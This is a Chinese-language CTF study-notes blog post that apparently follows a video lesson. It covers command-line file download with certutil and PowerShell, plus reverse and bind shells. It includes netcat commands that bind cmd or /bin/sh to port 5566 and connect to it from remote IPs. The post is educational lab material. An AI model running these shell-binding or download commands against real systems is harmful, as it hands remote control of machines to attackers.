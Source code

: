 ```yaml
---
title: 20250109CTF学习笔记35
date: 2025-01-09
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true



















---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第52天

今日内容：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

[[toc]]

- 小迪安全视频地址【[🔗传送门]([https://www.bilibili.com/video/BV123yAYMEwb/)】

<!-- more -->

# 第24章：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

## 文件上传下载-解决无图形化&解决数据传输

在不允许图形化界面的情况下，需要命令去上传下载。

### 演示

Windows Server 2012 + 【[棱角社区文件下载命令生成工具](https://forum.ywhack.com/bountytips.php?download)】

**思考：**这工具是在线工具，我不想用在线工具，是否能找一个能不用在线的工具？

>  ![image-20250108220233033](/img/ctfLearn/image-20250108220233033.png)
>
> `棱角社区文件下载命令生成工具`可以用来生成下载命令，有PowerShell或者cmd命令，以及Linux命令等

**步骤：**文件放到服务器上，构造一个地址，没有图形化页面，用远程命令的方式，将服务器的文件下载到电脑中。

### 常规简单命令

> - 强烈推荐【[PowerShell基础视频讲解](https://b23.tv/Rj2IJ02)】
> - 【[常规基本渗透命令详解目录](https://blog.csdn.net/weixin_43303273/article/details/83029138)】

- Linux:  `wget  curl  python  ruby  perl  java`等
- Windows: `PowerShell  Certutil Bitsadmin  msiexec mshta rund1132`等 

|               | Linux                                            | Windows                                                      |
| ------------- | ------------------------------------------------ | ------------------------------------------------------------ |
| 常见下载命令1 | wget https://example.com/software.tar.gz         | powershell.exe -Command "Invoke-WebRequest -Uri http://127.0.0.1:8080/example.exe -OutFile example.exe" |
| 常见下载命令2 | curl -O https://example.com/another_software.zip | certutil.exe -urlcache -split -f http://127.0.0.1:8080/example.exe example.exe |



## 反弹Shell

### 使用场景：

如果我们需要到服务器上执行 Shell 命令，但是因为防火墙等原因，无法由客户端主动发起连接的情况，就可以使用反弹 Shell 来满足登陆和操作的需求。

### 目的：

解决数据回显&解决数据通讯

- 解决数据回显：
  ```shell
  root@xiaodi:/tmp# useradd xiaodisec
  root@xiaodi:/tmp# passwd xiaodisec
  Enter new UNIX password:
  Retype new UNIX password:
  Enter new UNIX password:
  Retype new UNIX password:
  Enter new UNIX password:
  Retype new UNIX password:
  ```

  我们可以看到，如果我们在输入密码的时候不输入，直接回车，就会一直让你输入密码。假设我们在网上遇到一个漏洞，而这个漏洞需要去执行命令，类似这种需要输入的，等待输入就能往下进行。这时不会把对方的界面给到我们，我们动不了，可以把界面反弹到我们这边，我们再用这个命令就行了。反弹Shell就是把命令的输入输出转移到其他主机

- 解决数据通信问题：

  正常漏洞，执行一条命令，回显一条命令。比如我们提交一个文件，一直提交提交提交，我们一直有流量过去，如果将命令反弹回来，就相当于命令在本地执行一样。意思是将对方的权限移交给我们。（视频中是这么解释的，但我用AI解释的结果是`在企业内部网络，服务器多为内部私有 IP（如 192.168.x.x），经 NAT 设备连外网。外部攻击者是公网 IP，因 NAT 隐藏内部 IP 且限制外对内访问，无法直连服务器内部服务。而反弹 Shell 可突破限制，让目标服务器主动连接。比如，攻击者在公网设可访问服务器并监听端口，利用漏洞使目标服务器 Shell 连此端口，建立通信通道，双方借此通信。`）

### 工作原理：

攻击者在其自己的机器上设置监听端口，然后诱使受害者的机器执行一个反向连接的 Shell 命令，连接回攻击者的机器。这样，攻击者就能通过这个反向连接执行命令，控制受害者的计算机。

### 演示：

Windows Server 2012 + 【[棱角社区反弹Shell工具](https://forum.ywhack.com/shell.php)】

可以反弹的语言相当多，主要演示`linux`中的工具之一`ncat`

`NC(ncat)`瑞士军刀：`linux`系统下自带，`windows`下需要下载。

### 难点：

1. 正向连接
2. 反向连接

从图中我们看到，如果我们用linux服务器连windows服务器，有两种方法实现，一种正向，一种反向，需要看参照物，如果我们是主动找对方，就是正向；如果是对方放过来找我们，就是反向。

![image-20250109210228805](/img/ctfLearn/image-20250109210228805.png)

### 正向连接演示：

**Linux控制Windows：**

1.  Windows上边要绑定CMD到本地5566端口

   ```shell
   nc -e cmd -lvp 5566
   ```

   > Windows上没有nc工具，需要自己下载一个nc.exe工具【[下载地址](https://eternallybored.org/misc/netcat/)】，使用命令时如果不加环境变量就要写成nc.exe

2. Linux上边需要主动连接目标5566

   ```shell
   ncat 47.122.23.131 5566
   ```

   ![image-20250109220537065](/img/ctfLearn/image-20250109220537065.png)

   完成以后，发现可以在linux端输入命令，然后返回结果也是在linux显示的

**Windows控制Linux：**

1. 在linux上绑定SH到本地5566端口

   ```shell
   ncat -e /bin/sh -lvp 5566
   ```

2. 在Windows上主动连接目标5566

   ```shell
   nc 47.94.236.117 5566
   ```

   在复现时发现我在Vmware安装的Centos系统不能用Windows连接，查阅资料发现应该是防火墙问题，尝试关闭Linux系统的防火墙失败，理论上是可行的。


**正向连接原理：**

- 本地监听，等待连接
- 正向连接是谁监听，就是控制谁
- ![image-20250110200957400](/img/ctfLearn/image-20250110200957400.png)
